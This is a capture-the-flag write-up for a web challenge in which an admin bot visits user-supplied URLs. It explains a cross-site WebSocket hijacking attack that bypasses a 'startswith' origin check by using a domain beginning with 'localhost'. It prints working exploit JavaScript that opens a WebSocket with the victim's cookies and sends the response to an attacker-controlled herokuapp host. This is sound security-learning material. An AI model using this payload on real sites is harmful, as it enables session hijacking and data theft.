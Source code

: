We are given access to the challenge server (http://challs.nusgreyhats.org:12326/) that leads us to a pretty innocous page spitting a bunch of quotes. Looking at the commented HTML code (or just snooping through the provided server code) we are lead to the /share endpoint, which allows us to upload a website URL which will then be visited by the bot. We are also given access to the source files, which thankfully makes our lives a whole lot easier.

```
class Bot(Thread):
    def __init__(self, url):
        Thread.__init__(self)
        self.url = url

    def run(self):
        driver = webdriver.Firefox(service=Service(DRIVER_PATH), options=options)
        driver.get(self.url)
        time.sleep(3)
        driver.quit()
        
@app.route('/share', methods=['GET','POST'])
def share():
    if request.method == "GET":
        return render_template("share.html")
    else:
        if not request.form.get('url'):
            return "yes?"
        else:
            thread_a = Bot(request.form.get('url'))
            thread_a.start()
            return "nice quote, thanks for sharing!"
 ```
 
 Inspecting the code, upon uploading a URL to /share, the server will spawn a selenium instance to open the url for 3 seconds. What can we do with these 3 seconds? Looking at the rest of the source code, we find our main target.
 
 ```
 @app.route('/auth')
def auth():
    print('/auth', flush=True)
    print(request.remote_addr, flush=True)
    if request.remote_addr == "127.0.0.1":
        resp = make_response("authenticated")
        # I heard httponly defend against XSS(what is that?)
        resp.set_cookie("auth", auth_token, httponly=True)
    else:
        resp = make_response("unauthenticated")
    return resp


@sockets.route('/quote')
def echo_socket(ws):
    print('/quote', flush=True)
    while not ws.closed:
        try:
            try:
                cookie = dict(i.split('=') for i in ws.handler.headers.get('Cookie').split('; '))
            except:
                cookie = {}

            # only admin from localhost can get the GreyCat's quote
            if ws.origin.startswith("http://localhost") and cookie.get('auth') == auth_token:
                ws.send(f"{os.environ['flag']}")
            else:
                ws.send(f"{quotes[random.randint(0,len(quotes))]}")
            ws.close()
        except Exception as e:
            print('error:',e, flush=True)
 ```
 
 In summary, the index page establishes a websocket connection to the server through the route `/quote`. The server usually sends over random quotes over the websocket, but will instead send the flag upon two very specific conditions: 
 1. The websocket request must include the correct auth tokens (which can be obtained by visiting the route `/auth` with `request.remote_addr == "127.0.0.1":`)
 2. The origin of the request must begin with `http://localhost`
 
 This makes our objective very clear: craft a malicious payload hosted on our own server, which when visited by the selenium instance will allow us to exfiltrate the flag. However, this is easier said than done.
 
 We tried experimenting with many things. Most of our attempts began with using `window.open` to open a tab to `localhost:7070/auth`, which loaded the auth cookies. Some ideas included trying to somehow print and exfiltrate the auth cookie using XSS magic (thwarted by CORS and httponly cookies!), or going back to index and trying to print the contents of the page (more CORS filters and stuff). I did also briefly entertain the idea of XSS leaks having experimented with it before (check out the Securebank challenge for HIC 2021 :)) but couldn't find any clear exploit. 
 
 Thus, our next step was to investigate websockets for any potential vulnerability. Reading on, we found out that WebSockets did not natively implement any form of Same Origin Policy (https://dev.solita.fi/2018/11/07/securing-websocket-endpoints.html) meaning that we could make websocket requests from anywhere and access the results without having to deal with CORS issues! There were also known exploit vectors such as Cross-site WebSocket hijacking (https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking), whereby a malicious website can use existing cookies on a victim's browser to establish a websocket connection with authentication. We will be leveraging this in our exploit.
 
 Below details the key idea of our exploit.
 
 1. When the bot visits the malicious website, the website opens a new tab to `localhost:7070/auth`, which then loads the auth cookies to the browser
 2. The website then redirects the tab back to our malicious website, allowing us to inject code into the tab
 3. The injected code will spawn a websocket connection to `localhost:7070/quote`, and finally return the response (which is hopefully the flag!) through a url parameter.

However, while this gets us ever so close to the flag, we are still one step short. There has been some sort of safeguard implemented against the attack in the form of origin validation, and we need to find a way to bypass this `http://localhost` check. We again experimented with spawning the websocket connection before redirecting to our own website (and again, CORS issues), but ultimately found a simple workaround. The server does a `startswith` check to determine if the address is localhost, meaning that if our malicious domain also began with localhost, it would bypass this check! While tweaking around with host files can work, we just relabelled our heroku domain to start with localhost, and the exploit finally worked!

```
<h3>You won $100,000</h3>

<script>

    function hack() {
        
        var queryString = new URLSearchParams(window.location.search);
        var trying = parseInt(queryString.get('try'));
        //var home = "http://localhost:5000"
        var url = "http://localhost:7070"
        var home = "http://localhostsafenotsafe.herokuapp.com"
        if (trying != 1) return;
        winDW = window.open(url + "/auth", "csrf-frame")
        console.log("window opened")
        setTimeout(function() {
            winDW.location = home;
            scr = document.createElement('script')
            scr.text = "ws = new WebSocket('ws://localhost:7070/quote'); ws.onopen = function start(event) { ws.send('HELLO'); }; ws.onmessage = function handleReply(event) { str = '" + home + "'; str += '?ans='; str += encodeURIComponent(event.data); window.location = str; };"
            setTimeout(function() {
                winDW.document.head.appendChild(scr);
            }, 350);
        }, 350);
    }
    window.onload = function() {
        hack();
    }
</script>
```

(Sidenote: In hindsight, this exploit could be made *much* simpler as cookies are stored in the browser, not tab context. Also for some reason our final exploit didn't work locally but worked on the server, maybe due to some non-default sameSite cookie configurations on selenium?)

url inserted into /share: `http://localhostsafenotsafe.herokuapp.com/?try=1`

![image](https://user-images.githubusercontent.com/7780255/173227391-b6e381e1-788b-4b83-9fa5-adbcba72993c.png)
